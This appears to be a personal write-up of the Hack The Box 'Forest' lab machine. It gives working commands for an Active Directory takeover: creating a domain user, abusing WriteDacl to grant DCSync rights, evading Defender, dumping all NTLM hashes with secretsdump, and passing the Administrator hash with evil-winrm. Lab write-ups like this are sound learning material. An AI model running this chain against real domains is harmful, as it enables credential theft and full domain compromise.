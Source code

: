 [[Forest.pdf]]
# Enumeration
---
- We can use bloodhound to have a graphical view
	- [[Domain Enumeration Bloodhound]]
- It's found that **svc-alfresco** is a member of nine groups through nested membership.
- We can **find nested groups using Bloodhound or using**:
	- `Get-ADGroup -Identity "GroupName" -Properties MemberOf | Select-Object -ExpandProperty MemberOf`
	- ![[Pasted image 20250425122741.png]]
	- ![[Pasted image 20250425115115.png]]
- One of the nested groups is found to be ==**Account Operators**== , which is a ==**privileged AD group.**==
	- ==**If `userA` is a member of a sub-nested group**, they **inherit all permissions** assigned to the **parent groups up the chain**.==
	- According to the documentation, **==members of the Account Operators group are allowed create and modify users and add them to non-protected groups.==** 
	- But, we ==`Account Operators`cannot modify `Administrators`==
		- ![[Pasted image 20250425120748.png]]
- Click on Queries and select **Shortest Path to High Value targets** 
	- ![[Pasted image 20250425115255.png]]
- One of the paths shows that the ==**Exchange Windows Permissions** group has `WriteDacl`== privileges on the Domain. 
- The ==**WriteDACL privilege gives a user the ability to add ACLs to an object.**== 
	- This means that **==we can add a user to this group and give them DCSync privileges.==**

# Exploitation
----
	![[Pasted image 20250425115545.png]]
- The commands above **create a new user named john and add him to the required groups.** 
	- `net user drasstrange password1 /add /domain`
	- `net group "Exchange Windows Permissions" drasstrange /add`
- Next, download the ==**PowerView script**== and import it into the current session
	- ![[Pasted image 20250425115622.png]]
		- The **Bypass-4MSI command** is used to evade defender before importing the script. 
			- `. .\PowerView.ps1`

- Next, we can use the **==Add-ObjectACL with john's credentials, and give him DCSync rights.==**
	- `$pass = convertto-securestring 'password1' -asplain -force`
	- `$cred = new-object system.management.automation.pscredential('htb\drasstrange', $pass)`
	- `Add-ObjectACL -PrincipalIdentity drasstrange -Credential $cred -Rights DCSync`
	- ![[Pasted image 20250425115821.png]]
- The **secretsdump script from Impacket can now be run as john**, and **used to reveal the NTLM hashes for all domain users**:
	- ![[Pasted image 20250425115856.png]]
	- `impacket-secretsdump 'htb.local/drasstrange:password1@10.10.10.161'`
		- ![[Pasted image 20250425123526.png]]
- Login using `evil-winrm`:
	- `evil-winrm -i 10.10.10.161  -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6`
	- ![[Pasted image 20250425123650.png]]